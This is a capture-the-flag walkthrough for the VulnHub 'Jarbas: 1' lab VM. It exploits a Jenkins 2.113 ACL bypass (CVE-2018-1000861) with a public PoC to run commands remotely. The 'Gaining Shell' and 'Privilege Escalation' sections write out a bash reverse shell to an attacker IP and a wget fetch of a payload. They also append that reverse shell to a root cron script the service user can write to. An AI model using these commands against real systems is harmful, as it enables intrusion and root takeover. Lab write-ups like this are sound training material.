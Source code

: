 # Jarbas: 1

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1   00:50:56:c0:00:01       VMware, Inc.
192.168.127.240 00:0c:29:e1:f2:ed       VMware, Inc.
192.168.127.254 00:50:56:e5:26:19       VMware, Inc.

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.055 seconds (124.57 hosts/sec). 3 responded
```

The IP address is `192.168.127.240`

## 2.Enumeration

```bash
root@kali: nmap -sV -sC -p- -v -oN nmap.out 192.168.127.240

Nmap scan report for 192.168.127.240
Host is up (0.00088s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 28:bc:49:3c:6c:43:29:57:3c:b8:85:9a:6d:3c:16:3f (RSA)
|   256 a0:1b:90:2c:da:79:eb:8f:3b:14:de:bb:3f:d2:e7:3f (ECDSA)
|_  256 57:72:08:54:b7:56:ff:c3:e6:16:6f:97:cf:ae:7f:76 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-title: Jarbas - O Seu Mordomo Virtual!
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
3306/tcp open  mysql   MariaDB (unauthorized)
8080/tcp open  http    Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
MAC Address: 00:0C:29:E1:F2:ED (VMware)
```

We immediately explore port 80 and 8080, in port 80 there is just a normal website that leads to nothing but

port 8080 serves a jenkins server with a login form. investigating internet to find the version of jenkin i found

this [guide](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security) which says navigating to `/oops` shows the version

of jenkins so :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/a3345335-5afc-4c3e-9bc3-9549de8f0c8c)
![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/d15f5741-2f13-4c0a-b840-e274631e23b9)

jenkins version is `2.113`, i just searched if there is any exploit for this version and i found this [link](https://github.com/gquere/pwn_jenkins#authenticationacl-bypass-cve-2018-1000861-jenkins-21501)

thas says there is a Authentication/ACL bypass if this command returns a valid data :

```bash
curl -k -4 -s https://example.com/securityRealm/user/admin/search/index?q=a
```

i used this command against the target and i got a response :

```bash
root@kali: curl -k -4 -s http://192.168.127.240:8080/securityRealm/user/admin/search/index?q=a

<!DOCTYPE html><html><head resURL="/static/f3ad8932" data-rooturl="" data-resurl="/static/f3ad8932">

<title>Search for 'a' [Jenkins]</title><link rel="stylesheet" href="/static/f3ad8932/css/layout-common.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/css/style.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/css/color.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/css/responsive-grid.css" type="text/css" /><link rel="shortcut icon" href="/static/f3ad8932/favicon.ico" type="image/vnd.microsoft.icon" /><link color="black" rel="mask-icon" href="/images/mask-icon.svg" /><script>var isRunAsTest=false; var rootURL=""; var resURL="/static/f3ad8932";</script><script src="/static/f3ad8932/scripts/prototype.js" type="text/javascript"></script><script src="/static/f3ad8932/scripts/behavior.js" type="text/javascript"></script><script src='/adjuncts/f3ad8932/org/kohsuke/stapler/bind.js' type='text/javascript'></script><script src="/static/f3ad8932/scripts/yui/yahoo/yahoo-min.js"></script><script src="/static/f3ad8932/scripts/yui/dom/dom-min.js"></script><script src="/static/f3ad8932/scripts/yui/event/event-min.js"></script><script src="/static/f3ad8932/scripts/yui/animation/animation-min.js"></script><script src="/static/f3ad8932/scripts/yui/dragdrop/dragdrop-min.js"></script><script src="/static/f3ad8932/scripts/yui/container/container-min.js"></script><script src="/static/f3ad8932/scripts/yui/connection/connection-min.js"></script><script src="/static/f3ad8932/scripts/yui/datasource/datasource-min.js"></script><script src="/static/f3ad8932/scripts/yui/autocomplete/autocomplete-min.js"></script><script src="/static/f3ad8932/scripts/yui/menu/menu-min.js"></script><script src="/static/f3ad8932/scripts/yui/element/element-min.js"></script><script src="/static/f3ad8932/scripts/yui/button/button-min.js"></script><script src="/static/f3ad8932/scripts/yui/storage/storage-min.js"></script><script src="/static/f3ad8932/scripts/hudson-behavior.js" type="text/javascript"></script><script src="/static/f3ad8932/scripts/sortable.js" type="text/javascript"></script><script>crumb.init("Jenkins-Crumb", "8f6180d50a5ba4e2893af9f93c568926");</script><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/container/assets/container.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/assets/skins/sam/skin.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/container/assets/skins/sam/container.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/button/assets/skins/sam/button.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/menu/assets/skins/sam/menu.css" type="text/css" /><meta name="ROBOTS" content="INDEX,NOFOLLOW" /><meta name="viewport" content="width=device-width, initial-scale=1" /><script src="/static/f3ad8932/jsbundles/page-init.js" type="text/javascript"></script></head><body data-model-type="hudson.search.Search" id="jenkins" class="yui-skin-sam two-column jenkins-2.113" data-version="2.113"><a href="#skip2content" class="skiplink">Skip to content</a><div id="page-head"><div id="header"><div class="logo"><a id="jenkins-home-link" href="/"><img src="/static/f3ad8932/images/headshot.png" alt="title" id="jenkins-head-icon" /><img src="/static/f3ad8932/images/title.png" alt="title" width="139" id="jenkins-name-icon" height="34" /></a></div><div class="login"> <a href="/login?from=%2FsecurityRealm%2Fuser%2Fadmin%2Fsearch%2Findex"><b>log in</b></a></div><div class="searchbox hidden-xs"><form method="get" name="search" action="/securityRealm/user/admin/search/" style="position:relative;" class="no-json"><div id="search-box-minWidth"></div><div id="search-box-sizer"></div><div id="searchform"><input name="q" placeholder="search" id="search-box" class="has-default-text" value="a" /> <a href="https://jenkins.io/redirect/search-box"><img src="/static/f3ad8932/images/16x16/help.png" style="width: 16px; height: 16px; " class="icon-help icon-sm" /></a><div id="search-box-completion"></div><script>createSearchBox("/securityRealm/user/admin/search/");</script></div></form></div></div><div id="breadcrumbBar"><tr id="top-nav"><td id="left-top-nav" colspan="2"><link rel='stylesheet' href='/adjuncts/f3ad8932/lib/layout/breadcrumbs.css' type='text/css' /><script src='/adjuncts/f3ad8932/lib/layout/breadcrumbs.js' type='text/javascript'></script><div class="top-sticker noedge"><div class="top-sticker-inner"><div id="right-top-nav"><div id="right-top-nav"><div class="smallfont"><a href="?auto_refresh=true">ENABLE AUTO REFRESH</a></div></div></div><ul id="breadcrumbs"><li class="item"><a href="/" class="model-link inside">Jenkins</a></li><li href="/" class="children"></li><li class="item"><a href="/securityRealm/" class=" inside">Jenkins’ own user database</a></li><li class="separator"></li><li class="item"><a href="/securityRealm/user/admin/" class="model-link inside">admin</a></li><li class="separator"></li></ul><div id="breadcrumb-menu-target"></div></div></div></td></tr></div></div><div id="page-body" class="clear"><div id="side-panel"></div><div id="main-panel"><a name="skip2content"></a><h1>Search for 'a'</h1><ol><li id="item_admin"><a href="?q=admin">admin</a></li><li id="item_master"><a href="?q=master">master</a></li></ol></div></div><footer><div class="container-fluid"><div class="row"><div class="col-md-6" id="footer"></div><div class="col-md-18"><span class="page_generated">Page generated: Nov 8, 2023 9:19:37 AM BRST</span><span class="jenkins_ver"><a href="https://jenkins.io/">Jenkins ver. 2.113</a></span></div></div></div></footer></body></html>
```

so now i'm pretty sure that this version of jenkins is vulnerable, so again i searched to find any exploit for this vulnerability (CVE-2018-1000861)

and i found [this](https://github.com/vulhub/vulhub/blob/master/jenkins/CVE-2018-1000861/poc.py) exploit on github which is just a PoC, but i used it in a creative way

just downloaded the python file and run it against the target :

```bash
root@kali: python2 poc.py http://192.168.127.240:8080/ 'whoami'                
[*] ANONYMOUS_READ disable!
[*] Bypass with CVE-2018-1000861!
[*] Exploit success!(it should be :P)
```

with this output i'm now 100% sure that i can get a shell but this script returns no command output but it realy executes the command on the server.

## 3.Gaining Shell

So i created a reverse shell on my kali machine and served it with python web server :

```bash
root@kali: cat shell.sh                                                                       
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/192.168.127.128/4444 <&1'

root@kali: python3 -m http.server 80                           
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

and then used the `poc.py` file to download the shell.sh on the victim :

```bash
root@kali: python2 poc.py http://192.168.127.240:8080/ 'wget http://192.168.127.128/shell.sh -P /dev/shm'
[*] ANONYMOUS_READ disable!
[*] Bypass with CVE-2018-1000861!
[*] Exploit success!(it should be :P)
```

and then start a listener on your system and call the sell.sh file on the victim :

```bash
root@kali: python2 poc.py http://192.168.127.240:8080/ 'bash /dev/shm/shell.sh'
[*] ANONYMOUS_READ disable!
[*] Bypass with CVE-2018-1000861!
[*] Exploit success!(it should be :P)
```

and on my machine :

```bash
nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.240] 53568
bash: no job control in this shell
bash-4.2$ id
id
uid=997(jenkins) gid=995(jenkins) groups=995(jenkins) context=system_u:system_r:initrc_t:s0
```

yes we got the shell.

## 4.Privilege Escalation

Check crontab file :

```bash
bash-4.2$ cat /etc/crontab

SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
*/5 * * * * root /etc/script/CleaningScript.sh >/dev/null 2>&1
```

the file `CleaningScript.sh` is writable by user `jenkins` so just add the following line to the file :

```bash
bash -c 'exec bash -i &>/dev/tcp/192.168.127.128/4444 <&1'
```

content of the file :

```bash
bash-4.2$ cat /etc/script/CleaningScript.sh
#!/bin/bash

rm -rf /var/log/httpd/access_log.txt
bash -c 'exec bash -i &>/dev/tcp/192.168.127.128/4444 <&1'
```

and wait for the shell after 5 minutes :

```bash

```













